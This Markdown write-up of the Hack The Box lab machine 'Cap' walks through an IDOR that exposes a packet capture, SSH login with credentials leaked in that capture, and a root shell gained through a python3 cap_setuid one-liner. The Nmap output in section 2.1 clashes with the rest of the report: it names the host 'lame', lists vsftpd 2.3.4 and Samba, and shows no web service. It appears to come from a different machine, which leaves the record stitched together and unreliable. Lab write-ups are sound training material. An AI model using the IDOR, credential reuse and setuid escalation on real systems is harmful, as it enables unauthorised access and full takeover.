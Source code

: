 ![](attachments/Pasted%20image%2020251016211217.png)
#  Hack The Box: Cap (Retired Machine)

- [1. Executive Summary](#1-executive-summary)
- [2. Scanning & Enumeration](#2-scanning--enumeration)
	- [2.1 Port Scanning](#21-port-scanning)
		- [2.1.1 Output](#211-output)
	- [2.2 Web Enumeration](#22-web-enumeration)
		- [2.2.2 http://cap.htb/data/0](#222-httpcaphtbdata0)
		- [2.2.2 Output](#222-output)
	- [2.3 File Analysis](#23-file-analysis)
		- [2.3.1 Opening 0.pcap in Wireshark](#231-opening-0pcap-in-wireshark)
		- [2.3.2 Leaked FTP Credentials](#232-leaked-ftp-credentials)
	- [2.4 Capabilities Enumeration](#24-capabilities-enumeration)
		- [2.4.1 Find All Binaries With Capabilties](#241-find-all-binaries-with-capabilties)
		- [2.4.2 Output](#242-output)
- [3. Vulnerability Analysis](#3-vulnerability-analysis)
	- [3.1 Insecure Direct Object Reference (IDOR) on http://cap.htb/data/1](#31-insecure-direct-object-reference-idor-on-httpcaphtbdata1)
		- [3.1.1 Manipulate Identifier](#311-manipulate-identifier)
		- [3.1.2 Output](#312-output)
	- [3.2  CWE-309: Use of Password System for Primary Authentication](#32--cwe-309-use-of-password-system-for-primary-authentication)
		- [3.2.1 Use Same Credentials Found [2.3.2 Leaked FTP Credentials](#232-leaked-ftp-credentials)](#321-use-same-credentials-found-232-leaked-ftp-credentials232-leaked-ftp-credentials)
		- [3.2.1 Output](#321-output)
	- [3.3 Privilege Escalation Using Python](#33-privilege-escalation-using-python)
		- [3.3.1 Execute Command](#331-execute-command)
		- [3.3.2 Output](#332-output)


## 1. Executive Summary

This report outlines the penetration test conducted on the target host `cap.htb` under the HackTheBox environment. 

## 2. Scanning & Enumeration

### 2.1 Port Scanning

The following Nmap command was executed:

```bash
nmap -Pn -sC -sV -oN nmap/cap.nmap -vv cap.htb
```

#### 2.1.1 Output

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-16 15:07 UTC
Nmap scan report for 10.129.33.67
Host is up (0.086s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.48
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m36s, deviation: 2h49m46s, median: 33s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2025-10-16T11:08:51-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Nmap done: 1 IP address (1 host up) scanned in 61.22 seconds
```

### 2.2 Web Enumeration

#### 2.2.2 http://cap.htb/data/0

#### 2.2.2 Output

![](attachments/Pasted%20image%2020251016195239.png)

```bash
# Found Insecure Direct Object Reference (IDOR)  http://cap.htb/data/0 and able to download `0.pcap`
```

### 2.3 File Analysis

#### 2.3.1 Opening 0.pcap in Wireshark

```less
wireshark 0.pcap
```

#### 2.3.2 Leaked FTP Credentials

![](attachments/Pasted%20image%2020251016200041.png)

### 2.4 Capabilities Enumeration

#### 2.4.1 Find All Binaries With Capabilties

```bash
getcap -r / 2>/dev/null
```

#### 2.4.2 Output

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

## 3. Vulnerability Analysis

### 3.1 Insecure Direct Object Reference (IDOR) on http://cap.htb/data/1

> Insecure Direct Object Reference (IDOR) is a vulnerability that arises when attackers can access or modify objects by manipulating identifiers used in a web application's URLs or parameters. It occurs due to missing access control checks, which fail to verify whether a user should be allowed to access specific data.
> 
> Source: https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html

#### 3.1.1 Manipulate Identifier

```bash
http://cap.htb/data/0
http://cap.htb/data/1
http://cap.htb/data/2
http://cap.htb/data/3
http://cap.htb/data/4
```

#### 3.1.2 Output

Access to other user data is achieved by manipulating the identifier.

### 3.2  CWE-309: Use of Password System for Primary Authentication 

> The use of password systems as the primary means of authentication may be subject to several flaws or shortcomings, each reducing the effectiveness of the mechanism.
> 
> Source: https://cwe.mitre.org/data/definitions/309.html

#### 3.2.1 Use Same Credentials Found [2.3.2 Leaked FTP Credentials](#232-leaked-ftp-credentials) 

```bash
ssh -v [redacted]@cap.htb

Enter password: [redacted]
```

#### 3.2.1 Output

```bash
[redacted]@cap:~$ whoami
[redacted]
```

### 3.3 Privilege Escalation Using Python

> If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID
> 
> Source: https://gtfobins.github.io/gtfobins/python/#capabilities

#### 3.3.1 Execute Command

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

#### 3.3.2 Output

```bash
whoami
# root
```